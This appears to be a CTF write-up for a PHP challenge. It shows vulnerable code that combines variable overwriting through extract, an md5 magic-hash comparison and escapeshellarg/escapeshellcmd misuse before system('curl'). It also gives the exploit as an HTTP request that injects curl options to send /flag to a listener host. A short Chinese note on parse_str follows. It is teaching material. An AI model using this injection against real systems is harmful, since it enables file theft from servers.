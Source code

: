 ```php
foreach(array('_POST', '_GET', '_COOKIE') as $__R) {
    if($$__R) {
        var_dump($$__R);
        foreach($$__R as $__k => $__v) {
            if(isset($$__k) && $$__k == $__v) unset($$__k);
        }
    }
}
if($_POST) { waf($_POST);}
if($_GET) { waf($_GET); }
if($_COOKIE) { waf($_COOKIE);}

if($_POST) extract($_POST, EXTR_SKIP);
if($_GET) extract($_GET, EXTR_SKIP);
if(isset($_GET['flag'])){
    if($_GET['flag'] === $_GET['hongri']){
        exit('error');
    }
    if(md5($_GET['flag'] ) == md5($_GET['hongri'])){
        $url = $_GET['url'];
        $urlInfo = parse_url($url);
        if(!("http" === strtolower($urlInfo["scheme"]) || "https"===strtolower($urlInfo["scheme"]))){
            die( "scheme error!");
        }
        $url = escapeshellarg($url);
        $url = escapeshellcmd($url);
        system("curl ".$url);
    }
}
---------------------------------------------writeup----------------------------------------------------------
POST /ctf/code/escapeshell.php?flag=QNKCDZO&hongri=s878926199a&url=http://baidu.com/%27%20-F%20file=@/flag%20-x%20%20192.168.230.129:8888 HTTP/1.1
Host: 192.168.230.129
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=c18d5050ff3cd8412a328940
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

_GET[flag]=QNKCDZO&_GET[hongri]=s878926199a&_GET[url]=http://baidu.com/%27%20-F%20file=@/flag%20-x%20%20192.168.230.129:8888
```
## **parse_str**
功能 ：parse_str的作用就是解析字符串并且注册成变量，它在注册变量之前不会验证当前变量是否存在，所以会直接覆盖掉当前作用域中原有的变量。
